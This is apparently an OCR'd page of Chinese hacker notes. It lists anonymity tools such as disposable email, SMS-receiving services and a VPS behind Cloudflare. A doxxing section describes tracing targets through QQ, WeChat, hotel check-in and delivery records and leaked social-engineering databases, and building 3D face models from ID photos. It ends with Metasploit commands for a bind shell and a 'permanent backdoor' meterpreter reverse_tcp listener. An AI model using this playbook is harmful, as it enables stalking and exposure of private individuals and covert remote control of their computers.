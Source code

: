 10分钟邮箱

短信/电话接码平台

注册国外的产品：

购买/注册google voice（gv）账号

自己制作网站：

vps

挂cdn，cloudflare（只能代理80 443）

------

## 个人信息搜集：

策略

qq 微信 博客 微博 社区 贴吧 开房记录 外卖 快递 手机app

社工库

人轨

qq—>手机号—>支付宝

群关系，学校，同学关系

3D面部建模（证件照，身份证，护照。。。。。）

简历，公司关系查询

------

通过服务启动

use exploit/multi/handler

set payload windows/metsvc_bind_tcp

set lport 31337

set rhost [目标ip]

exploit

------

## 永久性后门

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set lport 4321

set lhost [自己ip]

exploit
